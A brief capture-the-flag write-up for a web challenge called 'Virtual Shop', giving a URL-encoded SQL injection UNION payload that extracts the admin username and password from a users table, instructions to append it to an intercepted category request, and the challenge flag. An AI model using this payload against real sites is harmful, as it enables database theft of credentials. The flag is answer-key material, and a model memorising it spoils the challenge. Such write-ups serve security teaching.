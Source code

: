 # Virtual Shop
## Writeup
You can use this payload: 
`'+UNION+SELECT+username,NULL,password,NULL+FROM+users+WHERE+username%3d'admin'--`
You can intercept the request when choosing a category and append the payload above to it, just like this:
![Image1](picture.png)
Then just take a look at the response:
![Image2](./picture2.png)
## Flag
```shellmates{Gg_b0Y_you_kNOW_w3ll_H0w_T0_uSe_uNiOn_4tTacK}```
